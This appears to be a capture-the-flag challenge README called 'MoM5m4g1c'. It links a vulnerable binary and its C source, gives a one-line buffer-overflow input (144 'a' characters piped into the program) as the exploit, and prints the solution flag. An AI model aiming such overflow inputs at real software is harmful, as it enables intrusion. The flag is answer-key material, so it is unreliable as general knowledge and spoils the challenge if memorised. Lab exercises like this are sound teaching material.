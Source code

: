 # MoM5m4g1c

Author: [NithinChowdary](https://github.com/nithinchowdary007)

## Description
Son:I want my chocolate mom!
Mother: Fill the water bottle son! :)

## Sources

- [MoM5m4g1C](./bin/MoM5m4g1C)
- [MoM5m4g1C.c](./bin/MoM5m4g1c.c)

## Exploit
```sh
(python -c 'print("a"*144)')| ./prison

```

The flag is:

```
wtfCTF{N1c3!n0w_U_c4N_34t_uR_Ch0c0L4t3}
```

